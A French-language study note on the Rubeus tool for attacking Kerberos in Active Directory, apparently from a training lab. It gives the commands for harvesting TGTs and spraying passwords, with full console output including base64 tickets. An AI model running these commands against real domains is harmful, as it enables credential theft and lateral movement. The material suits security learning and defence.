 ```yaml
---
tags: [active directory, cyber, kerberos, outil]
title: Rubeus - Récolte & Brute-Force des tickets
created: '2020-08-20T15:39:33.366Z'
modified: '2020-08-20T16:01:51.434Z'
---
```


# Rubeus - Récolte & Brute-Force des tickets

Rubeus est un outil puissant pour attaquer Kerberos. Rubeus est une adaptation de l'outil kekeo et a été développé par *HarmJ0y*, le très célèbre gourou des AD.

Rubeus dispose d'une grande variété d'attaques et de fonctionnalités qui lui permettent d'être un outil très polyvalent pour attaquer Kerberos. Parmi les nombreux outils et attaques :

- Overpass the hash
- Ticket request and renewal
- Ticket management
- Ticket extraction
- Harvesting
- Pass the ticket
- AS-REP roasting
- Kerberoasting

https://github.com/GhostPack/Rubeus

## Harvest - Récolte de tickets

La commande `harvest` rassemble les billets qui sont transférés au KDC et les sauvegarde pour les utiliser dans d'autres attaques telles que l'attaque "pass the ticket".

```cmd
Rubeus.exe harvest /interval:30
```

Par exemple :

```cmd
ontroller\administrator@CONTROLLER-1 C:\Users\Administrator\Downloads>Rubeus.exe harvest /interval:30

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v1.5.0

[*] Action: TGT Harvesting (with auto-renewal)
[*] Monitoring every 30 seconds for new TGTs
[*] Displaying the working TGT cache every 30 seconds


[*] Refreshing TGT ticket cache (8/20/2020 9:00:17 AM)

  User                  :  CONTROLLER-1$@CONTROLLER.LOCAL 
  StartTime             :  8/20/2020 8:53:03 AM
  EndTime               :  8/20/2020 6:53:03 PM
  RenewTill             :  8/27/2020 8:53:03 AM
  Flags                 :  name_canonicalize, pre_authent, initial, renewable, forwardable
  Base64EncodedTicket   :

    doIFhDCCBYCgAwIBBaEDAgEWooIEeDCCBHRhggRwMIIEbKADAgEFoRIbEENPTlRST0xMRVIuTE9DQUyiJTAjoAMCAQKhHDAaGwZr
    cmJ0Z3QbEENPTlRST0xMRVIuTE9DQUyjggQoMIIEJKADAgESoQMCAQKiggQWBIIEEn0/Q6ef623WJTh74tzNKSujFxwO9f5T2EIX
    mb2EiaximG3ir4lWPn4PQuR3lNXMLX+tkftD5lo9XpQ83Dh9NapZzFLWSzb8J/ofRrMx2FBgr3+m61G8oxvNZGTBrFRkaxO+kUS9
    j4VZm89KePyXPeTVStIatPvjrlib+zNXdtfzl2cr0kp41c/en6aXt6rA5sIq/EJiqz+vLN7sfRGGCC7o5lSbIwWigApgzsV5/jYb
    YxAYDTB+aFdgJYSYW1pYdtdMBpr+GgV7F477LHiYR6NzOpjFc0VAVIEgA71CvxyySWqmozNGeByuNZWGd1qz0G51fHZ7/HqDZrtv
    7b+9qiivDiou2iljRel5Cd2gFpjbzbpUoK0F5ge/xTpEawaHXd0UhIupL8pYdUWit3OwUEy4UvnxfE6KQ2tCO3/WRIdOdXLZg0f8
    b+6oOi7Wv6V+VA6B6kQdlWReD7ss0ePCI9aZymE7Hx/5Z+51tpvwB11iRFg+RZWVlibxjT1feObTSLomwqATHPEVn3JIcvrT0/kL
    Oz67rrVcc7IoWQIAaUzoEVMRes7S4WSs7RtBBgHbpj/qMjt9ohQck8ZkM0o4kaIhwoPftG93ptpUEHTEHv4f61a8uJUjAva/xurD
    zODwiekgArvLstytoulQN7x8XY3C5eciMStSe6+CkFzyiuRiQkygJ3g68N62nL6saYzY+dEHBvvUgyVzetNlytL4kDmQ0uIXtNG/
    xKZnCGxQXWoni+qen9dgFQRiXVk2oDMQNqsAUL+FQE8If3s2oigYUl2PoAqkmUH4si8LfTq6vV8NJxtWL50j0zNfno5PazoQUy0t
    Rs+80e1GbRyzwPpR+ppqKOS8rrHFUxafUe0waWuMetppH4FCSZ2VgmvXkdtyGtH5OEh1pFW+bJyvRxI5XOs3tx8LHa8tBK1mEeSw
    6LzQHgh8SSI6T/DihAnntgYGneAiqDHV+iJr8O6CgWwfScQbJj7lDxQxFLipH0InfIt4gaEYvs68IQmLXHl2vy7No2UjZN+NQR6D
    NpnrBEnDEsQQdBv5yjV4EdGJuU+uOsWVubumbU2LsDvVeyiA3MJKbOhGgzKSuwVjfbCwSvyFTIlIieSXxAd/6NJ1gSY+tEuk9Vks
    scE820DRN2PUXnBwFpImx2GlwIvxIJ998WS4utJWY71ReAMNHc5zwXCe82O46qsuucVyIVyoDLt7F0ySwGBxk5cO35CbvgjCrmE8
    ZqlJvsQ4b0sWznydoB67zZ5XBTMPJXtASsehws6T3K5Msnwu2NFlUOw8zEOQhG2qJE8RGMG3zSGWo4i1RroFaIFDMWQ74AlwjcgI
    yNuH5XihwxNu7dXOhM8wRWYW7RqsP6C8vaT/eoESpOh08AGbBjIRLQKjgfcwgfSgAwIBAKKB7ASB6X2B5jCB46CB4DCB3TCB2qAr
    MCmgAwIBEqEiBCBNJ8Sp+Fc1xxQWJIvCykbf6ojbwgd1oxRWeM2Bh1o8daESGxBDT05UUk9MTEVSLkxPQ0FMohowGKADAgEBoREw
    DxsNQ09OVFJPTExFUi0xJKMHAwUAQOEAAKURGA8yMDIwMDgyMDE1NTMwM1qmERgPMjAyMDA4MjEwMTUzMDNapxEYDzIwMjAwODI3
    MTU1MzAzWqgSGxBDT05UUk9MTEVSLkxPQ0FMqSUwI6ADAgECoRwwGhsGa3JidGd0GxBDT05UUk9MTEVSLkxPQ0FM
```

## Brute - Brute-Forcing / Password Spraying avec Rubeus

Rubeus peut aussi bien brute-forcer des mots de passe que password sprayer sur des comptes d'utilisateurs. Lorsqu'on brute-force, on a besoin d'un utilisateur et d'une liste de mots de passe à essayer. Dans la password spraying de mots de passe, on donne un seul mot de passe tel que Password1 et on "pulvérisez" sur tous les comptes d'utilisateurs trouvés dans le domaine pour trouver lequel peut avoir ce mot de passe.

Cette attaque prend un mot de passe basé sur Kerberos, le pulvérise sur tous les utilisateurs trouvés et donne un ticket .kirbi. Ce ticket est un TGT qui peut être utilisé pour obtenir des tickets de service du KDC ainsi que pour être utilisé dans des attaques telles que l'attaque "pass the ticket".

Avant de pulvériser le mot de passe avec Rubeus, il faut ajouter le nom de domaine du contrôleur de domaine au fichier hôte de Windows. On peut ajouter l'adresse IP et le nom de domaine au fichier hôte de la machine en utilisant la commande echo : 

```cmd
echo 10.10.235.102 CONTROLLER.local >> C:\Windows\System32\drivers\etc\hosts
```

On déclenche l'attaque :

```cmd
Rubeus.exe brute /password:Password1 /noticket
```

Par exemple :

```cmd
controller\administrator@CONTROLLER-1 C:\Users\Administrator\Downloads>Rubeus.exe brute /password:Password1 /noticket

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___  
  |  __  /| | | |  _ \| ___ | | | |/___) 
  | |  \ \| |_| | |_) ) ____| |_| |___ | 
  |_|   |_|____/|____/|_____)____/(___/  

  v1.5.0

[-] Blocked/Disabled user => Guest 
[-] Blocked/Disabled user => krbtgt 
[+] STUPENDOUS => Machine1:Password1
[*] base64(Machine1.kirbi):
 
      doIFWjCCBVagAwIBBaEDAgEWooIEUzCCBE9hggRLMIIER6ADAgEFoRIbEENPTlRST0xMRVIuTE9DQUyi 
      JTAjoAMCAQKhHDAaGwZrcmJ0Z3QbEENPTlRST0xMRVIubG9jYWyjggQDMIID/6ADAgESoQMCAQKiggPx 
      BIID7XGN5ee8uw7Y2CU9DDybo3IjCOVO9VouweyHyy8uiVK1RX/0tNDRIDt0B9FM3JjxQryKz4itRbdO
      kY2vNmsod1blu9JZ+nNceeHgyRLVwsZ/Gd/MPocQVq+IPVMGZVFGt1YH51XVEW7Ah7aVunyRrfmoUX1e
      QW6hWbySB4Ch3X98J+qUHz+gYEPEyy8fmuWq0Ta94SlFXvlswW+Z1E2b6tfWcJLrP5EcNvxGfBo15Pex
      A8m7JkkjVhJDKHOSHSpNRIsfR8XHvK9xbIsvN253g7sS6arya2qbyNr9JUKbRFod4dlzQRBdOqroEJfa
      Y3bWMRD5zLz3lI2Z7ZoZVUP+uiRCbp/iplnrl2YIm5ykAg8TwPS3sI5fUkKtHmWst0TI/8qIe4Rm4mKg
      T23ZOWeTzHVtbt6rBA95CV+KQpcjmlqaAw7PKbzTqPZboYyRQ4LYWgdSFMzHr0VOwAdNBHgs9upV852H
      b8RDwuW2flXT6YI3P2miYFccJ3KU1T+E6kMSEUaIPd5LIcGkStnxFXLx44R4BNwvfcTLejcB8H9jlgH1
      BsSO4z07MYlFOHVw6XtEOlYr4iOPKkEy3ZLt2mNIn7/iW+ZK4X7Gxi62gkS12tA6AtxCAcSb6r3wl6s4
      ixTbfgL3MZKmeDc5Gu7B9zcnFtJYhwZevmVvZJmwpn9koY+crXTJ7qRFdIhrDnqCn2jT2mzdyGFuoOk4
      HzpDK17AhQ/F8Hbn3CGmbvGB0xTv411VpFjvUq5ML+46/GDiabJI2jEg8FVSYoVpbLY2UhkpdzDaFebJ
      mO+EerqjLByAJGGXSExze+En+hGU67mvchuSUUDPCy/381k4sjVgZdg+6W+w+aw4LOxdoXrV+P8OhZZL
      lQdifMoXwvK4XfMvUMItzNbmVJv4TIb1crxnUw8tYLOxOtiKUOACBgklv1TlRizxkGTlNVL+gE8kGRNh
      ohONokRMKhGQxbOqtKLDZe0HPoE951v2Of5wu+H8GVLRleZkHCnKn4IDEIGCZ7YetAKWrhdO2WqEZb5m
      Fu2u06h4M29TqTd1AIYhu6GPWzv3bg1nyouzADYQGdPQD7TcQZYWgOOcX520TjkyPohETirxUXmnQ+Go
      kIqjUxqEA15mL1+7sLd7oPudFwFV9aN+ZEV4FAQncfCsGmY9gOeNpRgacRDoEorIt8Kv8v1yTMfn5vdm
      vyJ0EmTTdEQN5+9MnkVVTM0dlRK9NxTgFsZ8nA0mwB+kFwwZUrO9+N4nvt7gYyCVv8R6s3iM6lQbrwiv
      XSn942D07vW0GcaN2NTWGb71OAA6bujFIQltIw6qSPKoLNu8fQ2wV/FJAsyZKiMXA6OB8jCB76ADAgEA
      ooHnBIHkfYHhMIHeoIHbMIHYMIHVoCswKaADAgESoSIEIGnAV/kB/RRdGMRcpVMKjdCSRJoPnQmLWSzu
      Zmh+T7MzoRIbEENPTlRST0xMRVIuTE9DQUyiFTAToAMCAQGhDDAKGwhNYWNoaW5lMaMHAwUAQOEAAKUR
      GA8yMDIwMDgyMDE1NTcwOFqmERgPMjAyMDA4MjEwMTU3MDhapxEYDzIwMjAwODI3MTU1NzA4WqgSGxBD
      T05UUk9MTEVSLkxPQ0FMqSUwI6ADAgECoRwwGhsGa3JidGd0GxBDT05UUk9MTEVSLmxvY2Fs



[+] Done
```
